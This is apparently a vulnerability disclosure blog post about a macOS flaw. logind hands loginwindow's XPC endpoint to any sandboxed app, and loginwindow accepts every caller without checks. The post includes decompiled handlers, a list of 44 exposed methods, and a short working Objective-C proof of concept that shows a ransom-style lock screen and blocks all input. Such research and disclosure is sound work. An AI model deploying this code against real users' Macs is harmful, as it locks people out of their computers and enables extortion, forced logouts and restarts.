


# How I turned a Mac App Store app into ransomware using Apple's own Classroom feature

> **TL;DR:** A regular sandboxed app from the Mac App Store can lock your entire screen with a custom message, block all keyboard and mouse input, and you can't dismiss it. No special entitlements needed. Apple says it's not a security issue.



---

## Finding the target

I was going through the list of XPC services reachable from within the macOS App Sandbox, looking for anything interesting. Most services do proper entitlement checks on incoming connections — you need a specific `com.apple.private.*` entitlement, which App Store apps can never get, so the door is shut.

Then I noticed `com.apple.logind`.

`logind` is a small daemon that sits at `/System/Library/CoreServices/logind` and manages login sessions. It talks to `loginwindow` (the process that draws the login screen, handles logout, user switching, etc.) through an internal XPC endpoint. Nothing about it screams "attack surface" — it's boring infrastructure plumbing.

But when I opened the binary in IDA, the connection handler immediately caught my eye.

## The two-tier gate

`logind`'s XPC listener is implemented through `login.framework` — a private framework at `/System/Library/PrivateFrameworks/login.framework`. The listener delegate is `LFlogindListenerDelegate`, and its `listener:shouldAcceptNewConnection:` method does this:

```c
// login.framework — LFlogindListenerDelegate

__int64 -[LFlogindListenerDelegate listener:shouldAcceptNewConnection:](
        void *self, int a2, int a3, id connection)
{
    // Check if the connecting process has the private entitlement
    entitlementValue = [connection valueForEntitlement:@"com.apple.private.logind.spi"];

    if (entitlementValue
        && [entitlementValue isKindOfClass:[NSNumber class]]
        && [entitlementValue boolValue])
    {
        // Privileged path: give them LFLogindListenerInterface (40 methods)
        interface = [[self listener] privilegedInterface];
        remoteInterface = [NSXPCInterface interfaceWithProtocol:
                           @protocol(LFLogindConnectionInterface)];
    }
    else
    {
        // Unprivileged path: give them LFLogindListenerLookupInterface
        interface = [[self listener] interface];
        remoteInterface = nil;
    }

    [connection setExportedInterface:interface];
    [connection setExportedObject:[[self listener] messageHandler]];
    if (remoteInterface)
        [connection setRemoteObjectInterface:remoteInterface];

    [connection resume];
    return 1;  // <-- always accepts
}
```

Two things are happening here:

1. If you have `com.apple.private.logind.spi` — you get the full `LFLogindListenerInterface` with 40 privileged methods.
2. If you **don't** have it (i.e., you're a normal app) — you get `LFLogindListenerLookupInterface`, a smaller interface.

And **either way, the connection is accepted**. `return 1` at the bottom. No rejection. Every process on the system can connect to `logind`.

The question becomes: what's on that "smaller" interface?

## The endpoint leak

Among the methods available without any entitlement is `SMGetSessionAgentConnection:`. Here's what it does on the `logind` side:

```c
// logind — logindMessageHandler

void -[logindMessageHandler SMGetSessionAgentConnection:](self, SEL, reply)
{
    sharedSM = [SessionManagement sharedSessionManagement];
    [sharedSM SM_GetSessionAgentConnection:reply];
}
```

Which calls through to:

```c
// logind — SessionManagement

void -[SessionManagement SM_GetSessionAgentConnection:](self, SEL, reply)
{
    currentConn = [NSXPCConnection currentConnection];
    auditSession = [currentConn auditSessionIdentifier];

    err = [self SM_GetSessionRoleAccount:auditSession
                                 forRole:@"SessionAgent"
                                endPoint:&endpoint];
    if (err) {
        // log error, but still call reply
    }

    reply(err, endpoint);  // <-- sends back the NSXPCListenerEndpoint
}
```

It takes the caller's audit session, looks up the "SessionAgent" role for that session, and **hands back the raw `NSXPCListenerEndpoint`**. No entitlement check. No authorization. Just: "here's the endpoint, have fun."

That endpoint belongs to `loginwindow`.

## What's a SessionAgent?

When `loginwindow` starts, it registers itself with `logind` as the "SessionAgent" for the current login session. This is done through the *privileged* interface — `loginwindow` holds `com.apple.private.logind.spi`, so it gets access to `SMRegisterSessionAgent:reply:`:

```c
// logind — logindMessageHandler

void -[logindMessageHandler SMRegisterSessionAgent:reply:](self, SEL, endpoint, reply)
{
    sharedSM = [SessionManagement sharedSessionManagement];
    [sharedSM SM_RegisterSessionAgent:endpoint reply:reply];
}
```

`loginwindow` passes its `NSXPCListenerEndpoint` to `logind`. `logind` stores it. Then when *anyone* calls `SMGetSessionAgentConnection:`, `logind` gives out that stored endpoint.

The design assumption is clear: only `logind` itself (or other privileged processes) would ever use this endpoint, since it sits behind the `com.apple.logind` service, which was presumably meant to be access-controlled.

But it isn't.

## loginwindow's open door

So we have the endpoint. What happens when we connect to it? Here's `loginwindow`'s listener delegate in `login.framework`:

```c
// login.framework — LFSessionAgentListenerDelegate

__int64 -[LFSessionAgentListenerDelegate listener:shouldAcceptNewConnection:](
        void *self, int a2, int a3, id connection)
{
    interface = [[self listener] interface];
    [connection setExportedInterface:interface];

    messageHandler = [[self listener] messageHandler];
    [connection setExportedObject:messageHandler];

    remoteInterface = [NSXPCInterface interfaceWithProtocol:
                       @protocol(LFSessionAgentConnectionInterface)];
    [connection setRemoteObjectInterface:remoteInterface];

    [connection resume];
    return 1;  // <-- accepts everything unconditionally
}
```

Zero authentication. No `SecTaskCopyValueForEntitlement`. No `audit_token` check. No PID check. Not even a log message. Just: set up the interface, resume, return 1.

This makes sense from the *original* design perspective - this listener was only meant to receive connections from `logind` through the stored endpoint, and `logind` is a trusted system daemon. Why would you authenticate a connection coming from yourself?

The problem is that `logind` hands out that endpoint to anyone who asks.

## 44 methods on loginwindow

The interface exposed is `LFSessionAgentListenerInterface`, and `loginwindow` implements every method through `SessionAgentCom`. Here's the full list — 44 methods, all callable from a sandboxed app:

```
SACClassroomLockSetCaption:reply:          — set lock screen text
SACClassroomLockShow:                      — show fullscreen lock overlay
SACClassroomLockHide:                      — hide lock overlay
SACFaceTimeCallRingStart:                  — trigger FaceTime ring
SACFaceTimeCallRingStop:                   — stop FaceTime ring
SACAssertScreenLockViaTouchIDBlocked:      — block Touch ID screen lock
SACRemoveAssertScreenLockViaTouchIDBlocked:
SACScreenLockViaTouchIDAssertionTimeout:
SACScreenLockPreferencesChanged:
SACLockScreenImmediate:                    — lock screen NOW
SACLockScreenWhenBroughtOnConsole:
SACScreenLockEnabled:
SACShieldWindowShowing:
SACScreenSaverIsRunning:
SACScreenSaverCanRun:
SACSetScreenSaverCanRun:reply:
SACScreenSaverStartNow:                   — start screensaver
SACScreenSaverStartNowWithOptions:reply:
SACScreenSaverStopNow:
SACScreenSaverStopNowWithOptions:reply:
SACScreenSaverTimeRemaining:
SACScreenSaverIsRunningInBackground:
SACScreenSaverDidFadeInBackground:psnHi:psnLow:reply:
SACRestartForUser:reply:                   — RESTART the Mac
SACSetAutologinPassword:reply:             — set autologin password
SACSetKeyboardType:productID:vendorID:countryCode:reply:
SACSwitchToUser:reply:                     — switch user session
SACSwitchToLoginWindow:                    — switch to login screen
SACBeginLoginTransition:reply:
SACStartProgressIndicator:reply:
SACStopProgressIndicator:
SACSetFinalSnapshot:reply:
SACMiniBuddyCopyUpgradeDictionary:
SACMiniBuddySignalFinishedStage1WithOptions:reply:
SACSaveSetupUserScreenShots:
SACStartSessionForLoginWindow:
SACStopSessionForLoginWindow:
SACStartSessionForUser:reply:
SACNewSessionSignalReady:
SACLogoutComplete:reply:
SACLOStartLogout:subType:showConfirmation:talOptions:reply:
SACLOStartLogoutWithOptions:subType:showConfirmation:
    countDownTime:talOptions:logoutOptions:reply:
SACLORegisterLogoutStatusCallacks:reply:
SACLOFinishDelayedLogout:reply:
```

Force logout. Force restart. User switching. Screen lock. Autologin password manipulation. And the one I found most amusing for a demo — `SACClassroomLock*`.

## The Classroom Lock

Apple Classroom is an app for teachers to manage student devices. One of its features is "Lock Screen" — it puts a fullscreen overlay on the student's Mac showing a message, and blocks **all** keyboard and mouse input using a `CGEventTap`. The student can't dismiss it, can't Cmd+Tab, can't do anything. The teacher unlocks it when they're ready.

The implementation lives in `loginwindow`, behind the SAC methods. Here's `SACClassroomLockShow:`:

```c
// loginwindow — SessionAgentCom

void -[SessionAgentCom SACClassroomLockShow:](self, SEL, reply)
{
    // Log entry with connection info (no auth check here either)
    log = sub_100061620(off_10016B810[0]);
    if (os_log_type_enabled(log, OS_LOG_TYPE_DEFAULT)) {
        connectionInfo = [self debugLogConnectionInfo];
        os_log(log, "%s | Enter, %@",
               "-[SessionAgentCom SACClassroomLockShow:]", connectionInfo);
    }

    // Get the PID of the caller (for logging only, NOT for auth)
    currentConn = [NSXPCConnection currentConnection];
    callerPID = [currentConn processIdentifier];

    // Show the lock screen on the main thread
    dispatch_sync(dispatch_get_main_queue(), ^{
        // creates CGEventTap, shows fullscreen overlay
    });

    reply(0);  // success
}
```

It logs who called it. It records the PID. But it doesn't **check** anything. No "is this actually Apple Classroom?" question. Just show the lock.

## The PoC

The exploit is trivially simple. From a regular sandboxed macOS app:

```objc
// 1. Connect to logind — no entitlement needed
NSXPCConnection *c = [[NSXPCConnection alloc]
    initWithMachServiceName:@"com.apple.logind" options:0];
c.remoteObjectInterface = [NSXPCInterface
    interfaceWithProtocol:@protocol(LFLogindLookup)];
[c resume];

// 2. Ask for the SessionAgent endpoint — logind hands it over
[[c remoteObjectProxy] SMGetSessionAgentConnection:^(int err,
    NSXPCListenerEndpoint *endpoint) {

    // 3. Connect directly to loginwindow — zero auth
    NSXPCConnection *lw = [[NSXPCConnection alloc]
        initWithListenerEndpoint:endpoint];
    lw.remoteObjectInterface = [NSXPCInterface
        interfaceWithProtocol:@protocol(LFSessionAgent)];
    [lw resume];

    // 4. Set caption and show the lock screen
    id agent = [lw remoteObjectProxy];
    [agent SACClassroomLockSetCaption:@"YOUR MAC HAS BEEN LOCKED"
                                reply:^(int e) {}];
    [agent SACClassroomLockShow:^(int e) {}];
}];
```

That's it. About 15 lines of Objective-C. A Mac App Store app — sandboxed, notarized, no special entitlements — locks the user's entire screen with custom text. The user cannot interact with the computer at all until the app decides to call `SACClassroomLockHide:`.

And of course, since we have all 44 methods, the "ransomware" angle is just the flashiest demo. You could also force-restart the machine, force-logout the user, switch to a different user session, or mess with the autologin password.

## Apple's response



> *"We're unable to identify a security issue in your report."*

---

*macOS 26.5 beta (25F5053d). Tested April 2026.*

### andrd3v
